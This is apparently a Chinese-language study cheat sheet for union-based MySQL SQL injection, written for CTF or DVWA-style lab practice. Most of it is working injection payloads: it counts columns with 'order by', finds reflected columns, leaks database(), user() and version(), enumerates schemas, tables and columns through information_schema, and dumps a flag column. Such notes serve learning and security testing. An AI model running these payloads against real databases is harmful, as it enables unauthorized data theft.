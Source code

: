 ```
select count(distinct table_schema) from information_schema.tables;

select group_concat(distinct table_schema) from information_schema.tables;

select group_concat(table_name) from information_schema.tables where table_schema='sqli';

select group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='users';
```

## 基本流程

```sql
# 判断列表长度
1 order by 3

# 确定回显的列
1 union select 1,2,3

# 收集基本信息
1 union select 1,concat_ws('~',database(), user(), version(), @@basedir), 3

# 找不同的数据库表个数
1 union select 1,count(distinct table_schema), 3 from information_schema.tables

# 列出不同的数据库表
1 union select 1,group_concat(distinct table_schema), 3 from information_schema.tables

# 通过数据库名，查询表名
1 union select 1,group_concat(table_name), 3 from information_schema.tables where table_schema='sqli'

# 通过数据库名和表名，查询列名
1 union select 1,group_concat(column_name), 3 from information_schema.columns where table_schema='sqli' and table_name='info'

# 通过查到的表名和列名，查询数据
1 union select 1,group_concat(flAg_T5ZNdrm), 3 from sqli.info
```


## 重要信息收集

### 数据库信息
```sql
select * from information_schema.schema;
```

### 表信息
```sql
select table_name from information_schema.tables where table_schema = 'dvwa';
```
